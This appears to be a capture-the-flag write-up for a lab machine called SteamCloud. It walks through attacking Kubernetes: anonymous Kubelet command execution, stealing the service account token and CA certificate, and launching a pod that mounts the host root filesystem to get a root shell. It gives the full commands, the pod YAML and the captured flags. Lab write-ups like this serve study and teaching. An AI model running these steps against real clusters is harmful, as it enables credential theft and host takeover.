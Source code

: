 # Given

SteamCloud is an easy difficulty machine. The port scan reveals that it has a bunch of Kubernetes specific ports open. We cannot not enumerate the Kubernetes API because it requires authentication. Now, as Kubelet allows anonymous access, we can extract a list of all the pods from the K8s cluster by enumerating the Kubelet service. Furthermore, we can get into one of the pods and obtain the keys necessary to authenticate into the Kubernetes API. We can now create and spawn a malicious pod and then use Kubectl to run commands within the pod to read the root flag.

## ip/scope:

# Steps

## Enumeration

Started with an nmap scan of all ports, `nmap -sCV -p- -T3 -oN enum/nmap.out` which showed several open ports

```bash
22/tcp    open  ssh  OpenSSH 7.9p1 Debian 10+deb10u2 (protocol2.0)
2379/tcp  open  ssl/etcd-client?                                             2380/tcp  open  ssl/etcd-server?
8443/tcp  open  ssl/http Golang net/http server
10249/tcp open  http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10250/tcp open  ssl/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10256/tcp open  http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

Googling the ports 2379, 2380 led me to finding out that they're from the Kubernetes service. 

![](../../Assets/Pasted%20image%2020250620111842.png)

Checking Hacktricks for Kubernetes, and Kubelet API pentesting showed me how to interact with the Kubelet API. Managed to get some api endpoints which I should be able to normally.

```bash
curl -s https://raw.githubusercontent.com/kubernetes/kubernetes/master/pkg/kubelet/server/server.go | grep 'Path("/'


Path("/run")
Path("/exec")
Path("/attach")
Path("/portForward")
Path("/containerLogs")
```

## Exploiting RCE

 `/run` and `/exec` allow us to run code remotely on the containers. An example of `RCE`. 

 

The `kubeletctl` and `kubectl` binaries for interacting with the kubernetes api, and containers. 

- Run `kubeletctl pods--server 10.10.11.13` to get a list of the pods running on the server.
- We can also use this tool to scan for pods with the RCE vulnerability using `kubeletctl scan rce --server 10.10.11.133`

This shows us that the `nginx` pod is vulnerable to RCE. We can use `kubeletctl exec "id" --server 10.10.11.133 -p nginx -c nginx` to test the RCE.

![](../../Assets/Pasted%20image%2020250620143019.png)

## Initial Foothold

This means we could get the kubernetes server to open a bash shell for us to interact with it. Run `kubeletctl exec "/bin/sh" -s 10.10.11.13 -p nginx -c nginx`

![](../../Assets/Pasted%20image%2020250620143223.png)

### Items to Steal

`token` and `ca/crt` are two files that are located at `/var/run/secrets/kubernetes.io/serviceaccount/`. ==When a pod is created, Kubernetes automatically creates a service account for the pod, and assigns it to the pod by default. The files in the directory are used to authenticate and interact with the Kubernetes API server.==

Use `kubeletctl` to view them, and copy them to our attacking machine.

```bash
kubeletctl run "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" --namespace default --pod nginx --container nginx --server 10.10.11.133 > findings/ca.crt

kubeletctl run "cat /var/run/secrets/kubernetes.io/serviceaccount/token" --namespace default --pod nginx --container nginx --server 10.10.11.133 > findings/token
```

## Privilege Escalation

The idea here is that the kubernetes pods are running on a Linux Machine, and we want to essentially break out of the pod, and into the machine's file system.

We can go about doing this by mounting the machine's file system to a kubernetes pod we create using `kubectl`, the `ca.crt` and `token` files.

In order to create a pod, we'll also need a YAML file describing the pod in question.

```yaml
apiVersion: v1 
kind: Pod
metadata:
  name: 0ni-pod
  namespace: default
spec:
  containers:
  - name: 0ni-pod
    image: nginx:1.14.2
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

### Add Token to Env Variables

```bash
export token=$(cat findings/token)
```

### Create Pod

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 apply -f oni.yaml
```

The YAML file specifies a mounted drive called `hostfs`, which has a path of `/` meaning it will map the host machine's root directory.

We can check if this worked by using `kubeletctl` to list the pods running on the server.

![](../../Assets/Pasted%20image%2020250620145547.png)

And now we can connect to our pod by issuing the following command

`kubeletctl exec '/bin/sh' --server 10.10.11.133 -p 0ni-pod -c 0ni-pod`

and we have a root shell.

# Findings

1. Ports:
	1. Kubernetes: 2379, 2380
	2. Kubelet API: 10250
	3. Kube Proxy: 10256
	4. Http/s: 10249, 8443
	5. SSH: 22
2. Exposed Kubelet api endpoints

```bash
Path("/run")
Path("/exec")
Path("/attach")
Path("/portForward")
Path("/containerLogs")
```

3. CA cert and Token files at:
	1. /var/run/secrets/kubernetes.io/serviceaccount/token
	2. /var/run/secrets/kubernetes.io/serviceaccount/ca.crt

# Creds

- ca.crt file
- token file

# Flags

- User: a27d02d84fde582089d2f05e0bb41041
- Root: 3d282f17d9a882f36b8d10c503fec6a9

# Proof

![](../../Assets/Pasted%20image%2020250620131859.png)

![](../../Assets/Pasted%20image%2020250620140707.png)